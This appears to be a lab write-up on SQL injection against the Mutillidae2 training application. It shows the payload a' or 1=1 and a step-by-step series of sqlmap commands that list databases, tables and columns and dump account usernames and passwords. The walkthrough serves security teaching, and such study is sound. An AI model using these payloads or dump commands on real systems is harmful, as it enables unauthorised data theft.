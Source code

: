 # A1
<h2>Extracting Data</h2>

<p>We are dealing with a case of SQL Injection here. So we need to escape the intended context and fetch all users.
This one breaks down with the simplest and most trivial, <i><b>a' or 1=1</b></i>.
The puprose of this attack is to extract data. Inferencing the query structure from the output returned by server is key to executing the attack.
This causes the <i>"WHERE"</i> clause to return true and all the user details are displayed without any hassle. We have successfully used SQLINJECTION to get our hands on sensitive data.
</p>

<h3>Note</h3>
<p>Please do not go about trying inserting SQL injection based input on webistes not owned by you, or sites on which you do not have permissions to perform tests on. Modern architectures have IDS setup which will monitor suspicious activity ,and report your IP.
</p>
Also, Mutillidae2 presents to you the SQL injection on a plate, including displaying error messages. In the real world, lot of mapping, pruning and scanning is required before any vulnerability is identified.

<h3>Execution</h3>
<ol>
	<li>Manually submit values via browser interface, i.e username=<b>a'or 1 = 1</b>. However, level 2 will fail as the Javascript will prevent this. Hence the script will bypass this client side defense.
	<ul>
		<li>Will be prevented by Client side scripting(Stupid Level 2)</li>
		<li>Not hackery enough, doesn't give you the feel good</li>
	</ul>
	</li>
<li>	
Use a good'ol script that behaves like a browser. Attached the most simple script possible in pytnon
using Mechanize. (sqlinjection.py). It can be modified to be bit smart and adaptive. For now it snipes on the User Info page.
</li>
<li>
Use the grand daddy SQLMap tool. More on how to use sqlmap can be found by reading the man page.SQLMap ships by default with Kali Linux.
<ul>
			<li>
				<p>Start by locating sqlmap if it is already installed<p>
				<pre>
locate sqlmap.py
				</pre>
				Traverse to the directory, which will be "/usr/share/sqlmap" , if it is installed
			</li>
			<li>
				First step is to find out, the action URL i.e where the data is being submitted. There are many ways to do this, but I prefer doing it via the proxy of WebExploit tool BurpSuite, by PortSwigger.
				The request URL and method type must be indentified. In this case, the GET request reflects in the URL and can be copied from there. <br> In Burp Suite this can be done using the inbuilt proxy and copying th details from there. <br> We now use the URL with SQLMap as follows.<br> The values of the username and password do not matter,those keys will be used by SQLMap for injection.
				The 
				<pre>
./sqlmap.py -u "http://192.168.16.1:9999/mutillidae2/index.php?page=user-info.php&username=alibaba&password=dotcom&user-info-php-submit-button=View+Account+Details" --dbs  
				</pre>
				</li>
				<li>
					The above command will display the databases that could be accessed, use "<b>-D &ltDatabaseName&gt</b>" , and <b>--tables</b>to see tables for the database.
					<pre>
./sqlmap.py -u "http://192.168.16.1:9999/mutillidae2/index.php?page=user-info.php&username=alibaba&password=dotcom&user-info-php-submit-button=View+Account+Details" --dbs -D nowasp --tables
					</pre>
					</li>
					<li>
Once ,tables are displayed,a table name can be selected using "<b>-T &lttableName&gt</b>" and display columns using "<b>--columns</b>"
<pre>
./sqlmap.py -u "http://192.168.16.1:9999/mutillidae2/index.php?page=user-info.php&username=alibaba&password=password&user-info-php-submit-button=View+Account+Details" --dbs -D nowasp -T accounts --columns
</pre>
</li>
<li>
	One or more columns may then be selected using "<b>-C &ltcolumn1Name,column2Name&gt</b>" and the data can be dumped by specifying the option "<b>--dump</b>"
	<pre>
./sqlmap.py -u "http://192.168.16.1:9999/mutillidae2/index.php?page=user-info.php&username=alibaba&password=password&user-info-php-submit-button=View+Account+Details" --dbs -D nowasp -T accounts -C username,password --dump
</pre>
	</li>
</ul>
</ol>

